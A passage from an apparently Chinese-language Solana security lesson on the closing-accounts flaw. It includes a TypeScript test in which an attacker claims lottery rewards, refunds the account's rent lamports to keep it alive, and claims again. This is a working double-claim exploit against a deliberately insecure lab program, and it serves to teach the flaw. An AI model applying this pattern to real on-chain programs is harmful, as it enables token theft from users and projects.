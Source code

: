 成功使他们的帐户关闭后，攻击者可以多次调用`redeem_rewards_insecure`，索取比他们所欠的奖励更多的奖励。

一些起始测试已经展示了这种漏洞。查看`tests`目录中的`closing-accounts.ts`文件。`before`函数中进行了一些设置，然后有一个测试为`attacker`创建了一个新的抽奖参与。

最后，有一个测试展示了攻击者如何在索取奖励后保持帐户存活，并再次索取奖励。该测试如下所示：

```typescript
it("attacker  can close + refund lottery acct + claim multiple rewards", async () => {
    // claim multiple times
    for (let i = 0; i < 2; i++) {
      const tx = new Transaction()
      // instruction claims rewards, program will try to close account
      tx.add(
        await program.methods
          .redeemWinningsInsecure()
          .accounts({
            lotteryEntry: attackerLotteryEntry,
            user: attacker.publicKey,
            userAta: attackerAta,
            rewardMint: rewardMint,
            mintAuth: mintAuth,
            tokenProgram: TOKEN_PROGRAM_ID,
          })
          .instruction()
      )

      // user adds instruction to refund dataAccount lamports
      const rentExemptLamports =
        await provider.connection.getMinimumBalanceForRentExemption(
          82,
          "confirmed"
        )
      tx.add(
        SystemProgram.transfer({
          fromPubkey: attacker.publicKey,
          toPubkey: attackerLotteryEntry,
          lamports: rentExemptLamports,
        })
      )
      // send tx
      await sendAndConfirmTransaction(provider.connection, tx, [attacker])
      await new Promise((x) => setTimeout(x, 5000))
    }

    const ata = await getAccount(provider.connection, attackerAta)
    const lotteryEntry = await program.account.lotteryAccount.fetch(
      attackerLotteryEntry
    )

    expect(Number(ata.amount)).to.equal(
      lotteryEntry.timestamp.toNumber() * 10 * 2
    )
})
```
